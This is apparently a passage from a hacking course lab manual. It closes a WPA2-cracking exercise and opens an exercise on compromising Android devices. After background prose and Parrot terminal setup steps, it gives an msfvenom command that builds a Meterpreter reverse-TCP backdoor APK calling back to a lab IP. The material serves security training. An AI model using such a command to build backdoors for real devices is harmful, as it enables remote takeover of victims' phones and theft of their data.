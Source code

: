 This concludes the demonstration of cracking a WPA2 network using Aircrack-ng.

Close all open windows and document all the acquired information.

Exercise 9: Hack an Android Device by Creating Binary Payloads
Android is a software environment developed by Google for mobile devices.

Lab Scenario

The number of people using smartphones and tablets increasing, as these devices support a wide range of functionalities. Android is the most popular mobile OS, because it is a platform open to all applications. Like other OSes, Android has its vulnerabilities, and not all Android users install patches to keep OS software and apps up to date and secure. This laxity enables attackers to exploit vulnerabilities and launch various types of attacks to steal valuable data stored on victims’ devices.

Owing to the extensive usage and implementation of bring your own device (BYOD) policies in organizations, mobile devices have become a prime target for attacks. Attackers scan these devices for vulnerabilities. Attacks can involve the device and the network layer, the data center, or a combination of these.

A security professional should be familiar with all the hacking tools, exploits, and payloads to perform various tests on mobile devices connected to a network to assess its security infrastructure.

Lab Objectives

This lab demonstrates how to hack an Android device by creating binary payloads.

Overview of Hacking Android Platforms

Android includes an OS, a middleware, and key applications. Its Linux-based OS is designed especially for portable devices such as smartphones and tablets. Android has a stack of software components categorized into six sections (System Apps, Java AP Framework, Native C/C++ Libraries, Android Runtime, Hardware Abstraction Layer [HAL], and Linux kernel) and five layers.

As number of users with Android devices have been increasing, they have become the primary targets for hackers. Attackers use various Android hacking tools to discover vulnerabilities in the platform, and then exploit them to launch attacks such as DoS, Man-in-the-Disk, and Spear phone attacks.

Lab Tasks

In this lab, we will use Metasploit to create a binary payload in Attacker Machine-2 to hack an Android device.

In the Attacker Machine-2, click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.

A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.

In the [sudo] password for attacker field, type toor as a password and press Enter.

Note: The password that you type will not be visible.

Type cd and press Enter to jump to the root directory.

In the Parrot Terminal window, type service postgresql start and press Enter to start the database service.

Type msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk and press Enter to generate a backdoor, or reverse meterpreter application.
